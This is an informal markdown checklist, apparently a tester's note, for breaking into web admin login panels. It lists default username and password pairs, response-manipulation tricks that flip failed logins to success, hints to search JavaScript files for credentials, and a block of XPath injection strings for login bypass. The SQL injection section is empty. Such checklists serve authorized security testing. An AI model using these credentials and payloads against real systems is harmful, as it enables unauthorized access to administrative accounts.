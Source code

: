 # Admin Panel

Try out these dudeeeee :)

- [ ]  Default Credentials
- [ ]  Bypass by SQL injection
- [ ]  XSS (Blind)
- [ ]  Response Manipulation
- [ ]  Directory Fuzzing
- [ ]  Check JS files
- [ ]  Check Comment (Source Code Clt + U)
- [ ]  X path, No Sql injections

## How to do:

- Default Credentials
    
    ```
    admin:admin
    admin:password
    author:author
    administrator:password
    admin123:password
    username:pass12345
    ```
    
    and use sites ..
    
- Bypass by SQL injection
    - 
- XSS
    - inject username or password with xss payloads
    - parameter discovery
- Response Manipulation
    
    ```
    change the status of response from 
    200 => 302
    failed => success
    error => success
    403 => 200
    403 => 302
    false => true
    ```
    
- Check JS file
    - look for credentials or path, parameter, …
- X path
    
    ```
    ' or '1'='1
    ' or ''='
    ' or 1]%00
    ' or /* or '
    ' or "a" or '
    ' or 1 or '
    ' or true() or '
    'or string-length(name(.))<10 or'
    'or contains(name,'adm') or'
    'or contains(.,'adm') or'
    'or position()=2 or'
    admin' or '
    admin' or '1'='2
    ```